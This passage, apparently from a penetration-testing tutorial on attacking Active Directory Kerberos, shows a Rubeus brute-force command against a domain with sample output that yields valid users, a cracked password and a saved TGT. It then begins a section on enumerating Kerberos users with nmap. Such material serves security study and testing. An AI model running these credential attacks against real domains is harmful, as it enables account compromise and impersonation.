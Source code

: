 

As we have discussed Rebeus loads in this article already under `Kerberoasting` and `AS REP` I will jump straight to the chase. 



We can carry out the brute force with the below syntax (Has to be Zer1to's Fork)

```powershell
PS C:\Users\m0chan> .\Rubeus.exe brute /users:usernames.txt /passwords:pass.txt /domain:m0chanAd.local /outfile:brutepasswords.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.1

[+] Valid user => m0chan
[+] Valid user => jamie
[+] Valid user => jack
[+] M0CHAN => jack:jack123
[*] Saved TGT into jack.kirbi
```



The `brute` force module is really clever as if you crack a `Username` and `Password` combo it will automatically request a and save a `TGT` which you can inject into your current session to impersonate that user. But I will cover this later on when I discuss `Pass-The-Ticket` and `Kerberos Ticket Injection`



### [](#header-3)From Linux



Okay so surprisingly in my time and for the first time in this article I have actually had a easier experience enumerate Kerberos users from Linux and Brute forcing in comparison to Windows. 



Let's first talk about **nMap**



#### [](#header-4)nMap 



I am sure we have all heard of nMap, it's probably the most used InfoSec tool used. Period. 



Now nMap has a really nice script that allows us to enumerate users with `krb5-enum-users` This is super useful as we do not to have access to the domain only access to the `KDC`

